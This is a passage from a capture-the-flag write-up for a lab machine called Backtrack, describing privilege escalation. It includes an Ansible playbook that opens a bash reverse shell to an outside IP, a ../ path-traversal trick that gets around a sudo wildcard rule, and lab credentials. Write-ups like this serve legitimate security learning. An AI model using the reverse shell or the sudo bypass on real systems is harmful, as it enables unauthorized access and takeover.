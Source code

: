 ### Privilege escalation
1. To continue I run `sudo -l` and found:

```sh
Matching Defaults entries for tomcat on Backtrack:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tomcat may run the following commands on Backtrack:
    (wilbur) NOPASSWD: /usr/bin/ansible-playbook /opt/test_playbooks/*.yml
```
5. I checked the the `/opt/test_playbooks/` directory and I saw is owned by `wilbur` user and `tomcat` has no access to write in it
6. Trying to privesc I lost a lot of time to move the `linpeas.sh` script and hunt for "ghosts" (truth being told I did this machine on the Halloween day)
7. Trying to lateral move from `tomcat` to `wilbur` I return to my initial finding, the `ansible` scrip, and start building a plan
8. First I'll need to create my `shell.yml` script to start a reverse shell and start a listener locally (read more about ansible script exploit [here](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/ansible-playbook-privilege-escalation/))

```sh
- hosts: localhost
  tasks:
  - name: rev
    shell: bash -c 'bash -i >& /dev/tcp/10.11.79.193/4444 0>&1'
```
9. Now I have to find a way to give my script as a parameter!!!
10. After a lot of attempts I found that the script can be fooled using the name of the CTF `../`, and I managed to run it by placing my `.yml` file in the `/tmp` folder and run it like:

```sh
sudo -u wilbur /usr/bin/ansible-playbook /opt/test_playbooks/../../tmp/shell.yml
```
11. A new reverse shell was created and now I have access as `wilbur`
12. Looking around I found two interesting files in the user `/home` directory

```sh
#from_orville.txt 
Hey Wilbur, it\'s Orville. I just finished developing the image gallery web app I told you about last week, and it works just fine. However, I\'d like you to test it yourself to see if everything works and secure.
I\'ve started the app locally so you can access it from here. I\'ve disabled registrations for now because it\'s still in the testing phase. Here are the credentials you can use to log in:

email : orville@backtrack.thm
password : W34r3B3773r73nP3x3l$

#.just_in_case.txt (hidden file)
in case i forget :

wilbur:mYe317Tb9qTNrWFND7KF
```
13. Looks like `wilbur` password is working for SSH login
14. Reading the message about the application under test, I was curious to see what other ports are exposed locally and I run a `netstat`
